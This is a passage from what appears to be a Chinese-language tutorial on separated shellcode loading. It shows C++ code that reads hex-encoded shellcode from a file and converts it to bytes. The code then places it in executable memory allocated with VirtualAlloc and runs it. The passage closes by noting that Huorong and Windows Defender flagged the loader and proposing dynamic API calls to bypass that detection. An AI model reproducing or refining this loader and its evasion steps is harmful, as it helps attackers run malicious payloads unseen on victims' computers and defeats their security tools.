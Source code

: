 ```cpp
    //判断文件是否打开成功
    if (file.is_open()) {
        std::stringstream buffer; //创建一个stringstream对象
        buffer << file.rdbuf();  //将文件的内容复制到该流中
        contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中

        size = contents.length()/2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2
        file.close();  //关闭文件
    }
    
    //printf("%d\n", size); 
    //cout << contents;


    // 为存储转换后的shellcode分配内存
    unsigned char* buffer = (unsigned char*)malloc(size);
    
    // 调用函数将十六进制字符串转换为字节型数组
    hexStringToBytes(contents, buffer, size);

    // 在内存中分配一块可以执行的区域
    void* exec = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // 将shellcode复制到该区域
    memcpy(exec, buffer, size);
    
    // 执行该shellcode
    ((void(*) ())exec)();
}
```



## 代码优化

火绒和WindowsDefender都报毒了, 其原因是内存申请函数`VirtualAlloc`被检测到了，那就使用动态调用api来绕过检测

![image-20230522235637826](shellcode分离加载/image-20230522235637826.png)
